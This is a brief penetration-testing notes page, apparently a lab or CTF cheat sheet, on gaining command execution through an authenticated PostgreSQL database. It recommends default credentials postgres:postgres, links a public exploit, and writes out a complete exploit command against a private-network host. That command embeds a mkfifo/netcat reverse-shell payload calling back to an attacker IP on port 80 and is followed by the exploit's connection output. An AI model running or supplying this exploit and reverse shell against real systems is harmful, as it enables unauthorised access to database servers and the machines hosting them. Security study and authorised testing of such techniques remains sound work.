 # Authenticated PostgresSQL

If we have valid credentials for a PostgresSQL DB&#x20;

We should follow this article on RCE.

{% embed url="https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767" %}

As well as using this exploit if the versions match

{% embed url="https://www.exploit-db.com/exploits/50847" %}

The default cred are postgres:postgres

Depending on which system we are tareting I recommend using this payload for getting a reverse shell out of this.&#x20;

```
python /usr/share/exploitdb/exploits/multiple/remote/50847.py -i 192.168.143.47 -p 5437 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.143 80 >/tmp/f' 

[+] Connecting to PostgreSQL Database on 192.168.143.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _2dd6b3f0887b2a35a68630f8de3d4c67
```
